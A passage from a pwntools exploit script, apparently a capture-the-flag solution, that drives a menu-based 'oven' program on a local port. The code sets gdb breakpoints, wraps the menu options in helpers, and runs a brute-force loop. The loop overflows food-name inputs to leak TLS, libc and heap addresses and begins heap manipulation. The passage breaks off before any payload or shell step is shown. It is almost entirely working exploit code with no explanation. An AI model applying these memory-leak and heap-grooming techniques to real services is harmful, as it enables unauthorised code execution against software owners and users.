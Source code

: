 ``` python
    'ret_print_oven' : code_base + 0x16B0,
}

gs = f'''
continue
b *{bp['dec_count_cook']}
b *{bp['read_insert_cook']}
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def create_oven(s, name):
    s.sendline(b"0")
    s.recvuntil(b"name: ")
    s.sendline(name)
    return s.recvuntil(b"option: ")

def select_oven(s, number):
    s.sendline(number)
    return s.recvuntil(b"option: ")

def insert_food(s, number, time, name=""):
    s.sendline(b"1")
    s.recvuntil(b"> ")
    s.sendline(number)
    s.recvuntil(b"(seconds): ")
    s.sendline(str(time).encode())
    if number == b"5":
        s.recvuntil(b"food: ")
        s.send(name)
    return s.recvuntil(b"option: ")

def remove_food(s, number):
    s.sendline(b"2")
    s.recvuntil(b"> ")
    s.sendline(number)
    return s.recvuntil(b"option: ")

def go_back(s):
    s.sendline(b"3")
    return s.recvuntil(b"option: ")

def brute_force_time(port):
    context.log_level = 'error'
    for i in range(10000):
        s = remote("0.0.0.0", port)
        s.recvuntil(b"option: ")
        create_oven(s, b"1111")
        select_oven(s, b"1")

        for _ in range(4):
            insert_food(s, b"1", 12345)
        for _ in range(4):
            remove_food(s, b"1")
        insert_food(s, b"5", 12345, b"A" * 0x20)
        r = insert_food(s, b"5", 12345, b"B" * 0x28)
        tls = u64(r.split(b"A" * 0x20)[1].split(b" ")[0] + b"\x00\x00")
        libc = tls + 0x3940
        heap = u64(r.split(b"B" * 0x28)[2].split(b" ")[0] + b"\x00\x00") - 0x960
        remove_food(s, b"1")
        remove_food(s, b"1")

        insert_food(s, b"1", 1)
```